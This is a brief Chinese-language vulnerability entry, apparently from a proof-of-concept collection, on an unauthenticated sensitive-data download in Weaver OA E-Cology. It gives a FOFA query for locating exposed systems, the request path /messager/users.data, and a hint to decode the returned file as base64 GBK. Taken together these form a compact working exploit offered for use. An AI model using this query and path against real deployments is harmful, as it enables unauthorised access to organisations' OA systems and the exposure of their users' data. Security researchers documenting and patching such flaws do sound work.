 # 泛微OA E-Cology users.data 敏感信息泄漏

## 漏洞描述

泛微OA E-Cology users.data 允许任意用户下载，获取OA中的敏感信息

## 漏洞影响

```
泛微OA E-Cology
```

## FOFA

```
app="泛微-协同商务系统"
```

## 漏洞复现

登录页面

![image-20220520134158756](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201341810.png)

验证POC

```
/messager/users.data
```

![image-20220520134209598](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201342693.png)

base64 GBK解码